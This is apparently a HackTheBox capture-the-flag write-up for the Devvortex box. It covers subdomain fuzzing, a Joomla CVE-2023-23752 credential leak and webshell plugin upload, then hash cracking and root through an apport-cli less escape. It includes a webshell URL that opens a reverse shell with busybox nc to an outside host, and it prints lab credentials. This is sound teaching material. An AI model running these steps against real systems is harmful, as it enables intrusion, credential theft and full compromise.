# Devvortex -- HackTheBox (write-up)

**Difficulty:** Easy
**Box:** Devvortex (HackTheBox)
**Author:** dkrxhn
**Date:** 2024-09-11

---

## TL;DR

### Subdomain enumeration found a Joomla 4.2.6 instance vulnerable to CVE-2023-23752, leaking DB creds. Logged into Joomla admin, uploaded a webshell plugin, dumped MySQL for a second user's hash, cracked it, then escalated via `apport-cli` running as root through `less` shell escape.
---
## Target info

- Host: `10.129.229.146`
- Domain: `devvortex.htb`
---
## Enumeration



Subdomain fuzzing:

```bash
wfuzz -u http://10.129.229.146 -H "Host: FUZZ.devvortex.htb" -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt
```

Found `dev` subdomain.



Joomla detected:





Checked Joomla version:

```
http://dev.devvortex.htb/administrator/manifests/files/joomla.xml
```



---
## Joomla CVE-2023-23752

First exploit attempt had errors:



Switched to a different PoC:



After installing dependencies, ran successfully:



Creds: `lewis:P4ntherg0t1n5r3c0n##`

Logged into `/administrator` dashboard:



---
## Webshell plugin

Installed a Joomla webshell plugin via System > Extensions > Install:



Confirmed command execution:

```
http://dev.devvortex.htb/modules/mod_webshell/mod_webshell.php?action=exec&cmd=id
```



Reverse shell:

```
http://dev.devvortex.htb/modules/mod_webshell/mod_webshell.php?action=exec&cmd=busybox%20nc%2010.10.14.172%209001%20-e%20sh
```



---
## MySQL -- user hash

```bash
mysql -u lewis -p'P4ntherg0t1n5r3c0n##' joomla
```







- `logan:$2y$10$IT4k5kmSGvHSO9d6M/1w0eYiB5Ne9XzArQRFJTGThNiy/yBtkIj12`

Cracked with hashcat:



`logan:tequieromucho`



---
## Privilege escalation -- apport-cli

```bash
sudo -l
```







`apport-cli` runs as root and uses `less` to display reports. When in `less`, enter `!/bin/bash` to escape into a root shell.



Need to give apport-cli crash data to view. Two methods:

**Crash sleep method** -- generate a real crash dump:

```bash
sleep 20 &
# note the PID
kill -ABRT <PID>
ls /var/crash/
sudo apport-cli -c /var/crash/_usr_bin_sleep.1000.crash
```

Choose `V` to view report, then `!/bin/bash` in less.

**Fake data method** -- create minimal crash file:

```bash
echo -e "ProblemType: Crash\nArchitecture: amd64" | tee example.crash
sudo apport-cli -c ./example.crash
```

Choose `V`, then `!/bin/bash`.



---
## Lessons & takeaways

- Subdomain enumeration is essential -- the main site had nothing useful
- Joomla version disclosure at `/administrator/manifests/files/joomla.xml` is a quick check
- When a tool runs as root and pages output through `less`, that's a shell escape opportunity
- Fake crash files work for apport-cli -- just needs `ProblemType` and `Architecture` headers
